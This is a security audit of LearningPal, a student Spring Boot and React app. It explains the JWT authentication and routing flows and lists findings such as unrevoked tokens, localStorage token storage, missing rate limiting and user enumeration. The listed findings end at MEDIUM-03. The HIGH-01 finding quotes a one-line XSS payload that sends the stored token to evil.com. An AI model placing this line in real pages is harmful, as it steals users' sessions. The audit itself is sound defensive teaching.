



# LearningPal: Comprehensive Authentication, Routing & Security Audit

> **Target Audience**: IT Student & Engineering Team  
> **Date**: November 2, 2026  
> **Audited Modules**: Spring Boot 3.3.4 Backend & React 18 / Vite Frontend  
> **Repository**: `c:\Users\Marion Alfeche\LearningPal`

---

## 1. Executive Summary

LearningPal is built on a modern, decoupled architecture: a **Spring Boot 3.3.4** backend handling persistence, validation, and JSON Web Token (JWT) issuance, paired with a **React 18** Single Page Application (SPA) utilizing React Router for client-side navigation.

The core security foundations are thoughtful:
* Passwords are never stored in plain text; they are hashed with **BCrypt**.
* Public signups are explicitly blocked from registering as `ADMIN` ([`AuthService.java#L51-L53`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L51-L53)).
* Teachers cannot log in immediately; they enter an administrative queue (`PENDING`) until approved ([`AuthService.java#L76-L90`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L76-L90)).
* The frontend implements a guarded route architecture ([`ProtectedRoute.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/components/ProtectedRoute.jsx)) that prevents flashes of protected content (FOUC) while restoring the user's session.

However, a deep technical audit reveals **several critical and high-severity security vulnerabilities** that stem from the boundary between stateless JWT authentication and stateful database accounts—most notably that **revoking a teacher's account does not invalidate their active token**, and **storing tokens in `localStorage` exposes sessions to Cross-Site Scripting (XSS)**.

Below is the complete walkthrough and security report.

---

## 2. How Authentication & Routing Work (Plain-Language Guide)

To understand this system, think of LearningPal as a **secure modern campus building**:
* **The Database (`users` table)** is the school's central filing cabinet.
* **The Backend (`Spring Security` & `JwtAuthFilter`)** is the campus security team guarding the entrances to specialized wings (the Student Wing, the Teacher Lounge, the Principal's Office).
* **The JWT Token** is a **tamper-evident wristband** stamped with your name and role, issued after you prove your identity at the front desk.
* **The Frontend (`React Router` & `ProtectedRoute`)** is the building's floor plan, directional signage, and turnstiles that guide visitors to the right hallway.



---

### Step-by-Step Flow 1: The Signup Flow

1. **User Fills Form**: In [`Signup.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Signup.jsx#L24-L35), the visitor selects whether they are a `STUDENT` or `TEACHER`, enters their full name, email, and password.
2. **Client Validation**: The frontend checks the regex `^(?=.*[A-Za-z])(?=.*\d).{8,72}$` (at least 8 characters, 1 letter, 1 number) and confirms password matching before sending any network request.
3. **API Request**: [`authService.signup()`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/authService.js#L12-L17) sends a `POST /api/auth/signup` JSON payload to the backend.
4. **Backend Security Gate**:
   * [`AuthController.java#L31`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/AuthController.java#L31) receives the request and runs `@Valid` constraints.
   * [`AuthService.java#L51-L59`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L51-L59) checks if the role is `ADMIN` (instantly rejected) and checks if the email already exists in the database.
5. **The Fork in the Road**:
   * **If Student**: The account is saved with status `ACTIVE`. A JWT token is generated immediately. The frontend receives the token, stores it in `localStorage`, and navigates to `/student`.
   * **If Teacher**: The account is saved with status `PENDING`. **No JWT is generated**. The backend returns `token: null`. The frontend detects this and displays the "Teacher Account Under Review" waiting screen ([`Signup.jsx#L91-L94`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Signup.jsx#L91-L94)).

---

### Step-by-Step Flow 2: The Login Flow

1. **User Enters Credentials**: In [`Login.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Login.jsx#L24-L39), the user enters their email and password.
2. **API Request**: [`api.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js#L17) posts the data to `POST /api/auth/login`.
3. **Database Lookup**: [`AuthService.java#L103`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L103) looks up the lowercase normalized email.
4. **BCrypt Verification**: `passwordEncoder.matches(rawPassword, user.getPasswordHash())` computes the salt and hash. If it doesn't match (or the user doesn't exist), a generic `401 Unauthorized` ("Incorrect email or password") is thrown.
5. **Status Verification**:
   * If `status == PENDING`: Throws `403 Forbidden` ("Your teacher account is awaiting admin approval").
   * If `status == REJECTED`: Throws `403 Forbidden` ("Your teacher account request was declined").
   * If `status == ACTIVE`: Issues a signed JWT containing user ID, email, and role.
6. **Frontend Reception**:
   * [`AuthContext.jsx#L52-L60`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/context/AuthContext.jsx#L52-L60) stores the JWT in `localStorage` (`learningpal_token`), sets `user` in React state, and marks `isAuthenticated = true`.
   * User is redirected to their specific portal (`/student`, `/teacher`, or `/admin`).

---

### Step-by-Step Flow 3: What Happens on Every Protected Request

When an authenticated user loads data (e.g., [`StudentHome.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/StudentHome.jsx#L56) requesting `/api/student/ping`):



1. **Client Injects Wristband**: [`api.js#L21-L26`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js#L21-L26) reads the token from `localStorage` and appends `Authorization: Bearer <token>` to the HTTP headers.
2. **The Guard Intercepts**: [`JwtAuthFilter.java#L40-L46`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java#L40-L46) intercepts the incoming HTTP packet before it ever reaches a controller.
3. **Cryptographic Validation**: [`JwtService.java#L91-L99`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtService.java#L91-L99) decrypts and checks the HMAC-SHA256 signature against the server's private secret and checks whether `expiration` > current timestamp.
4. **Authority Grant**: [`JwtAuthFilter.java#L57-L66`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java#L57-L66) constructs a Spring Security `SimpleGrantedAuthority("ROLE_" + role)` and stores it in the thread-local `SecurityContextHolder`.
5. **Enforcement Gate**: [`SecurityConfig.java#L64-L68`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L64-L68) checks if the endpoint matches `.hasRole("STUDENT")`. If the user has `ROLE_STUDENT`, access is granted. If not, [`RestAccessDeniedHandler`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/RestAccessDeniedHandler.java) issues a `403 Forbidden`.

---

### Step-by-Step Flow 4: The Teacher Approval Flow

1. Teacher signs up -> Account created in database with `Role.TEACHER` and `UserStatus.PENDING`.
2. Admin logs in with seeded or administrative credentials -> Frontend routes them to [`AdminHome.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/AdminHome.jsx).
3. [`AdminHome.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/AdminHome.jsx#L29) calls `GET /api/admin/teachers/pending`.
4. [`AdminController.java#L28-L32`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/AdminController.java#L28-L32) and [`AdminService.java#L32-L37`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AdminService.java#L32-L37) query `userRepository.findByRoleAndStatusOrderByCreatedAtDesc(Role.TEACHER, UserStatus.PENDING)`.
5. Admin clicks **Approve**:
   * Frontend calls `POST /api/admin/teachers/{id}/approve`.
   * Backend checks that the user exists and has `Role.TEACHER`, updates status to `UserStatus.ACTIVE`, and saves to the database.
   * The teacher can now successfully authenticate via `POST /api/auth/login`.
6. Admin clicks **Reject**:
   * Backend updates status to `UserStatus.REJECTED`. Login attempts for this teacher will now return `403 Forbidden` ("Your teacher account request was declined").

---

### Step-by-Step Flow 5: How Routing Works (Frontend Turnstiles vs. Backend Doors)

A common point of confusion for students is the difference between **frontend routes** and **backend endpoints**:
* **Frontend Routing (React Router)** runs entirely inside the visitor's browser. It changes what React components are drawn on screen when the URL bar changes. It **does not protect data**; it only protects the user experience.
* **Backend Security (Spring Security)** runs on the server. It guards the database and REST endpoints. Even if a clever user manipulates the frontend to display an Admin screen, the server will block their API calls with `401` or `403`.



#### What Happens on Page Refresh?
1. The browser refreshes; all React state (variables, memory) is instantly wiped out.
2. In [`AuthContext.jsx#L10`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/context/AuthContext.jsx#L10), the state initializes `token` from `localStorage.getItem('learningpal_token')`.
3. `loading` is set to `true`.
4. While `loading === true`, [`ProtectedRoute.jsx#L16-L27`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/components/ProtectedRoute.jsx#L16-L27) intercepts every protected page and renders a friendly loading spinner ("*Checking student notebook index…*"). **This prevents the page from flashing unauthorized or empty screens.**
5. [`AuthContext.jsx#L17-L40`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/context/AuthContext.jsx#L17-L40) fires an immediate background call to `GET /api/auth/me`.
6. If the server verifies the token, the full `UserDto` profile is restored into React state and `loading` becomes `false`.
7. `ProtectedRoute` sees `isAuthenticated === true` and lets the visitor into their page without requiring them to log in again.

---

### File-by-File Architecture Guide

| Area | File | Summary in Plain Language |
| :--- | :--- | :--- |
| **Backend** | [`SecurityConfig.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java) | The security rulebook; configures stateless sessions, CORS, and binds URL matchers to roles (`STUDENT`, `TEACHER`, `ADMIN`). |
| **Backend** | [`JwtAuthFilter.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java) | The security guard at the door; inspects incoming HTTP `Authorization` headers on every request and validates wristbands. |
| **Backend** | [`JwtService.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtService.java) | The wristband machine; generates, signs, and unpacks HMAC-SHA256 JWT tokens. |
| **Backend** | [`AuthController.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/AuthController.java) | REST endpoints for signup, login, and current session inspection (`/api/auth/**`). |
| **Backend** | [`AuthService.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java) | Core business logic for authentication, password hashing, role enforcement, and status checks. |
| **Backend** | [`AdminController.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/AdminController.java) | REST endpoints for listing, approving, and declining pending teachers (`/api/admin/**`). |
| **Backend** | [`AdminService.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AdminService.java) | Logic for updating teacher approval status in the database. |
| **Backend** | [`AdminUserSeeder.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/AdminUserSeeder.java) | Startup runner that seeds a default administrator into the database if none exists. |
| **Backend** | [`TestPingController.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/TestPingController.java) | Proof-of-concept test endpoints (`/api/student/ping`, `/api/teacher/ping`) demonstrating role authorization. |
| **Backend** | [`GlobalExceptionHandler.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/exception/GlobalExceptionHandler.java) | Converts all backend exceptions into a consistent JSON envelope: `{ "message": "..." }`. |
| **Backend** | [`RestAuthenticationEntryPoint.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/RestAuthenticationEntryPoint.java) | Intercepts unauthenticated 401 errors and returns clean JSON instead of Spring's default HTML error page. |
| **Backend** | [`RestAccessDeniedHandler.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/RestAccessDeniedHandler.java) | Intercepts forbidden 403 errors (wrong role) and returns clean JSON. |
| **Frontend** | [`App.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx) | The application root router; sets up public routes, protected portals, and fallback redirects. |
| **Frontend** | [`ProtectedRoute.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/components/ProtectedRoute.jsx) | Client-side route guard turnstile checking loading state, login state, and role matching. |
| **Frontend** | [`AuthContext.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/context/AuthContext.jsx) | React Context managing `user`, `token`, `localStorage`, login, signup, and session restoration. |
| **Frontend** | [`api.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js) | Central fetch wrapper that automatically appends the `Authorization: Bearer <token>` header to requests. |
| **Frontend** | [`authService.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/authService.js) | Frontend client functions calling backend auth endpoints. |
| **Frontend** | [`adminService.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/adminService.js) | Frontend client functions calling backend admin teacher approval endpoints. |

---

### Route Tables

#### Table A: Frontend Routes (React Router)

| Path | Component / Page | Access Requirement | Guard Mechanism |
| :--- | :--- | :--- | :--- |
| `/` | `LandingPage.jsx` | Public | Unrestricted in [`App.jsx#L29`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L29) |
| `/login` | `Login.jsx` | Public | Unrestricted in [`App.jsx#L30`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L30) |
| `/signup` | `Signup.jsx` | Public | Unrestricted in [`App.jsx#L31`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L31) |
| `/student` | `StudentHome.jsx` | Authenticated + `ROLE_STUDENT` | `<ProtectedRoute allowedRole="STUDENT">` ([`App.jsx#L37`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L37)) |
| `/teacher` | `TeacherHome.jsx` | Authenticated + `ROLE_TEACHER` | `<ProtectedRoute allowedRole="TEACHER">` ([`App.jsx#L46`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L46)) |
| `/admin` | `AdminHome.jsx` | Authenticated + `ROLE_ADMIN` | `<ProtectedRoute allowedRole="ADMIN">` ([`App.jsx#L55`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L55)) |
| `*` | Catch-all redirect to `/` | Public | `<Navigate to="/" replace />` ([`App.jsx#L62`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L62)) |

#### Table B: Backend Endpoints (Spring Security)

| Method & Path | Target Controller Method | Allowed Callers | Guard Mechanism |
| :--- | :--- | :--- | :--- |
| `POST /api/auth/signup` | `AuthController.signup()` | Public | [`SecurityConfig.java#L62`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L62) `.permitAll()` |
| `POST /api/auth/login` | `AuthController.login()` | Public | [`SecurityConfig.java#L62`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L62) `.permitAll()` |
| `GET /api/auth/me` | `AuthController.getCurrentUser()` | Any authenticated user | [`SecurityConfig.java#L68`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L68) `.anyRequest().authenticated()` |
| `GET /api/student/ping` | `TestPingController.studentPing()` | `ROLE_STUDENT` only | [`SecurityConfig.java#L64`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L64) `.hasRole("STUDENT")` |
| `GET /api/teacher/ping` | `TestPingController.teacherPing()` | `ROLE_TEACHER` only | [`SecurityConfig.java#L65`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L65) `.hasRole("TEACHER")` |
| `GET /api/admin/teachers/pending` | `AdminController.getPendingTeachers()` | `ROLE_ADMIN` only | [`SecurityConfig.java#L66`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L66) `.hasRole("ADMIN")` |
| `POST /api/admin/teachers/{id}/approve` | `AdminController.approveTeacher()` | `ROLE_ADMIN` only | [`SecurityConfig.java#L66`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L66) `.hasRole("ADMIN")` |
| `POST /api/admin/teachers/{id}/reject` | `AdminController.rejectTeacher()` | `ROLE_ADMIN` only | [`SecurityConfig.java#L66`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L66) `.hasRole("ADMIN")` |

---

## 3. Security Findings & Vulnerability Analysis

### Severity Summary
* **Critical**: 1
* **High**: 3
* **Medium**: 4
* **Low**: 3
* **Info**: 2

---

### [CRITICAL-01] Stateless JWT Filter Bypasses Database Status: Rejected Teachers Retain Full Access

* **File & Lines**: [`backend/src/main/java/com/learningpal/config/JwtAuthFilter.java#L51-L68`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java#L51-L68)
* **What it is**: Once a JWT token is created, [`JwtAuthFilter`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java) trusts the token based purely on its cryptographic signature and expiration date. It **never consults the database** or verifies `user.getStatus()`.
* **Why it matters**: If an administrator revokes, rejects, or bans a teacher by calling `POST /api/admin/teachers/{id}/reject`, the database status changes to `REJECTED`. However, any JWT issued to that teacher before the rejection remains 100% valid until it expires 24 hours later.
* **How an attacker exploits this**:
  1. A teacher gets approved and logs in at 9:00 AM, receiving a 24-hour token.
  2. At 10:00 AM, the school administrator realizes the teacher is fraudulent and clicks **Reject** in [`AdminHome.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/AdminHome.jsx).
  3. The rogue teacher can continue making requests to all `/api/teacher/**` endpoints until 9:00 AM the following day because the server never checks if they are still active.
* **Project Context**: In a local classroom demo, this is a theoretical timing window; in production, this is a severe access-control flaw that violates account de-provisioning policies.
* **Suggested Fix**:
  In [`JwtAuthFilter.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java), inject `UserRepository` (or a cached userDetailsService) and verify `user.getStatus() == UserStatus.ACTIVE` before granting the Spring Security authority:
  ```java
  // In JwtAuthFilter.java
  User user = userRepository.findByEmail(email).orElse(null);
  if (user == null || user.getStatus() != UserStatus.ACTIVE) {
      // Reject request: user has been deleted, locked, or rejected
      filterChain.doFilter(request, response);
      return;
  }
  ```

---

### [HIGH-01] Sensitive Token Storage in Browser `localStorage` (XSS Exposure)

* **File & Lines**: [`frontend/src/context/AuthContext.jsx#L10, L55, L70, L81`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/context/AuthContext.jsx#L10) & [`frontend/src/services/api.js#L21`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js#L21)
* **What it is**: The frontend stores the JWT authentication token in `window.localStorage` under the key `'learningpal_token'`.
* **Why it matters**: `localStorage` has no cross-script protection. Any JavaScript running inside the application can read, duplicate, or exfiltrate the token. If an attacker finds any Cross-Site Scripting (XSS) vulnerability (such as a compromised npm package or un-sanitized user note), a single line of JavaScript (`fetch('https://evil.com/?t=' + localStorage.getItem('learningpal_token'))`) permanently compromises the account.
* **Project Context**: Very common in student prototypes because it is easy to code, but standard practice in enterprise production is to use `HttpOnly`, `Secure`, `SameSite=Strict` cookies.
* **Suggested Fix**:
  Configure the Spring Boot backend to issue the JWT in a `Set-Cookie` header:
  ```java
  ResponseCookie cookie = ResponseCookie.from("accessToken", token)
      .httpOnly(true)
      .secure(true)
      .sameSite("Strict")
      .path("/api")
      .maxAge(Duration.ofHours(24))
      .build();
  response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
  ```

---

### [HIGH-02] No Rate Limiting or Account Lockout on `/api/auth/login` (Brute-Force Risk)

* **File & Lines**: [`backend/src/main/java/com/learningpal/controller/AuthController.java#L39-L43`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/AuthController.java#L39-L43) & [`AuthService.java#L99-L122`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L99-L122)
* **What it is**: There is no throttling, rate limiting, IP blocking, or failed-attempt counter on the login endpoint.
* **Why it matters**: An automated script can submit millions of password guesses against student or administrator accounts without being slowed down or locked out. While BCrypt slows each hash computation down to ~100ms, a multi-threaded attacker can still test thousands of common passwords per hour.
* **Project Context**: Essential in production facing the public internet; acceptable for a local machine demonstration.
* **Suggested Fix**:
  Introduce a rate-limiting filter (such as Bucket4j) or track `failed_attempts` on the `User` entity to lock accounts for 15 minutes after 5 consecutive failures.

---

### [HIGH-03] Default Admin Credentials in Seed Script Can Compromise Production

* **File & Lines**: [`backend/src/main/java/com/learningpal/config/AdminUserSeeder.java#L36-L65`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/AdminUserSeeder.java#L36-L65) & [`application.properties.example#L42-L46`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/resources/application.properties.example#L42-L46)
* **What it is**: On startup, [`AdminUserSeeder`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/AdminUserSeeder.java) automatically generates an administrator account using values read from `application.properties`.
* **Why it matters**: If a developer copies `application.properties.example` or uses an easily guessable password during deployment, any attacker on the network can immediately log in as administrator and take full control of teacher approvals and student data.
* **Suggested Fix**:
  Do not auto-seed an admin with fixed credentials in production. Instead, require an environment variable `ADMIN_INITIAL_PASSWORD` that must be provided during initial installation and enforce an immediate password reset on the admin's first login.

---

### [MEDIUM-01] User Enumeration via Signup Conflict and Login Timing Differences

* **File & Lines**: [`backend/src/main/java/com/learningpal/service/AuthService.java#L57-L59`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L57-L59) & [`L103-L108`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L103-L108)
* **What it is**:
  1. [`AuthService.java#L57-L59`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L57-L59) returns `409 Conflict` with `"An account with this email already exists"` when someone attempts to register an existing email.
  2. In [`AuthService.java#L103-L108`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L103-L108), if an email does not exist, the method throws an exception immediately in ~2ms. If the email *does* exist, it executes `passwordEncoder.matches()`, which takes ~100ms.
* **Why it matters**: An attacker can compile a list of email addresses (e.g. teachers and students in a district) and use these responses/timing discrepancies to determine which individuals have accounts on LearningPal.
* **Suggested Fix**:
  * On signup: Return a generic message like *"Registration request received. Please check your email to complete setup."*
  * On login: When a user is not found, execute a dummy BCrypt comparison so response times are identical.

---

### [MEDIUM-02] 24-Hour Token Lifetime with No Revocation or Refresh Mechanism

* **File & Lines**: [`backend/src/main/resources/application.properties.example#L31`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/resources/application.properties.example#L31) (`app.jwt.expiration-ms=86400000`)
* **What it is**: JWT access tokens are valid for 24 hours (86,400,000 ms), and there is no refresh token system or token revocation blocklist.
* **Why it matters**: If a student logs in on a shared school library computer and clicks "Log Out", the frontend only deletes the token from the browser's `localStorage`. The token itself is **still cryptographically valid** for the rest of the 24 hours. If an attacker retrieves it from the browser cache or network logs, they can impersonate that user for up to a full day.
* **Suggested Fix**:
  Reduce access token expiry to **15 minutes**, and implement short-lived refresh tokens stored in secure, server-side sessions.

---

### [MEDIUM-03] Role Lockout: Administrators Cannot Access Student or Teacher Endpoints

* **File & Lines**: [`backend/src/main/java/com/learningpal/config/SecurityConfig.java#L64-L66`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L64-L66)
* **What it is**:
  ```java
  .requestMatchers("/api/student/**").hasRole("STUDENT")
  .requestMatchers("/api/teacher/**").hasRole("TEACHER")
  .requestMatchers("/api/admin/**").hasRole("ADMIN")
  ```
* **Why it matters**: Spring Security's `hasRole("STUDENT")` strictly requires `ROLE_STUDENT`. An administrator (`ROLE_ADMIN`) attempting to inspect student data or test a classroom endpoint is denied with `403 Forbidden`. If an administrator needs oversight over teacher rosters or student diagnostic cards, they are blocked at the firewall.
* **Suggested Fix**:
  Use `hasAnyRole("ADMIN", "STUDENT")` or configure a Spring Security `RoleHierarchy`:
  ```java
  @Bean
  public RoleHierarchy roleHierarchy() {
      return RoleHierarchyImpl.withDefaultRolePrefix()
              .role("ADMIN").implies("TEACHER")
              .role("TEACHER").implies("STUDENT")
              .build();
  }
  ```

---

